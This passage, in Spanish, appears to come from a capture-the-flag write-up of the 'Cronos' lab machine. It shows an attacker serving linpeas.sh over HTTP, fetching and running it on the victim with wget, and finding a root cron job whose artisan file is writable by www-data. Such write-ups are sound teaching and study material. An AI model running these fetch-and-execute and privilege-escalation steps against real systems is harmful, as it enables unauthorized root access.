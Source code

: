 ## Cron Jobs

nos situaremos en una carpeta de nuestra maquina de atacante donde tengamos [linpeas.sh](http://linpeas.sh) y crearemos un servidor web en python

```bash
Cronos # ❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

descargamos en la maquina victima

```bash
www-data@cronos:/tmp$ wget http://10.10.14.109/linpeas.sh
--2022-02-07 03:59:06--  http://10.10.14.109/linpeas.sh
Connecting to 10.10.14.109:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 320037 (313K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh       100%[=====================>] 312.54K   425KB/s    in 0.7s
```

ejecutamos linpeas

```bash
www-data@cronos:/tmp$ chmod +x linpeas.sh
www-data@cronos:/tmp$ ./linpeas.sh
```

encontramos que existe un tarea que esta ejecutando cada cierto tiempo

```bash
[snip]
/etc/cron.weekly:
total 24
drwxr-xr-x  2 root root 4096 Apr  9  2017 .
drwxr-xr-x 95 root root 4096 Oct 29  2020 ..
-rw-r--r--  1 root root  102 Apr  6  2016 .placeholder
-rwxr-xr-x  1 root root   86 Apr 13  2016 fstrim
-rwxr-xr-x  1 root root  771 Nov  6  2015 man-db
-rwxr-xr-x  1 root root  211 May 24  2016 update-notifier-common

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

revisamos los permisos de /var/www/laravel/artisan y tenemos permisos de escritura

```bash
www-data@cronos:/tmp$ ls -la /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

revisamos el contenido
